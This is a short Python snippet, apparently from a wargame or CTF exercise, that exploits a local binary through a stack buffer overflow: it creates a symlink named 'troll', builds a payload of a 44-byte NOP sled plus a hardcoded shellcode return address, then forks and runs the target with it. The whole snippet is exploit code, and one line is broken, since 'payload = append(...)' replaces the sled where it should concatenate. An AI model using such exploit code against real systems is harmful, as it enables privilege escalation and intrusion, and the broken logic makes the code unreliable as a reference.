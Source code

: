 ```python
shellcode_addr = 0xbffffc78

if os.path.exists(sym_link):
        os.remove(sym_link)

os.symlink('troll', sym_link)
target = target + sym_link

payload = "\x90"*44
payload = append(p32(shellcode_addr))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```

